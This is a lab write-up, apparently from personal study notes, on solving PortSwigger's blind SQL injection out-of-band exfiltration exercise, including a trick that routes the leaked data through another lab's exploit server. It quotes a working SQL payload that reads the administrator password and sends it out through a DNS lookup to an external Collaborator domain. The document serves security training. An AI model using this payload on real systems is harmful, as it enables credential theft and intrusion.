






# Blind SQL injection with out-of-band data exfiltration

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

## Definition
Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:
```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the Administrator user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password: `S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work. 

## Notes
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the `password` of the **administrator** user.

To solve the lab, log in as the **administrator** user.

**Exploitation**  

Theoretically, this lab can be solved using the **burp-collaborator** feature only. But this is not exactly true. It is possible to achieve the same result doing a request to a URL inside of the same network of this lab, in other words, another lab where we can track which requests were made.

On the [2FA simple bypass](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass) lab there is an exploit server interface where you can craft an URL and observe all HTTP request made for it in the log section. This feature is located inside the email client page.

The image below shows an example of how to configure the exploit URL. The only important thing is to let uncheck the HTTPS option. Probably there's no route mapping to HTTPS locally between the services

  

The next step is to test the communication between the two labs. The figure below presents a payload that calls the exploit URL using the same `XXE` principle used in the previous lab:



In the logs section of the exploit server, is possible to observe the request made to the URL from another machine:

  

The following images show how to get the administrator password and pass it as a path parameter to the exploit server:







## Key Words
> sql injection, blind, out-of-band, oast, avoid collaborator, communication beween labs